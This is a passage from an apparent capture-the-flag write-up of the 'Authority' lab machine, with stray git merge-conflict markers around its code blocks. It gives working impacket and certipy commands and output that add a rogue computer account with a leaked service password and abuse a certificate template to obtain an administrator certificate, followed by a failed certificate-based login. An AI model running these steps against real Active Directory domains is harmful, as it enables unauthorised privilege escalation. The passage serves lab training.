 <<<<<<< HEAD
```
=======
```bash
>>>>>>> d0813a4 (Updated posts)
$impacket-addcomputer Authority.htb/svc_ldap:'lDaP_1n_th3_cle4r!' -computer-name testerpc -computer-pass 'Password@123' -method LDAPS -dc-ip 10.10.11.222
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account testerpc$ with password Password@123.
```
With the computer account created earlier, certipy will create a certificate.

<<<<<<< HEAD
```
=======
```bash
>>>>>>> d0813a4 (Updated posts)
$certipy req -username testerpc$ -password Password@123 -ca AUTHORITY-CA -dc-ip 10.10.11.222 -template CorpVPN -upn administrator@authority.htb -dns authority.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 4
[*] Got certificate with multiple identifications
    UPN: 'administrator@authority.htb'
    DNS Host Name: 'authority.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_authority.pfx'
```


### PassTheCert

We can use certipy auth command to get the NTLM hash of the administrator but this failed.

<<<<<<< HEAD
```
=======
```bash
>>>>>>> d0813a4 (Updated posts)
certipy  auth -pfx administrator_authority.pfx
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'administrator@authority.htb'
    [1] DNS Host Name: 'authority.htb'
> 0
[*] Using principal: administrator@authority.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
```
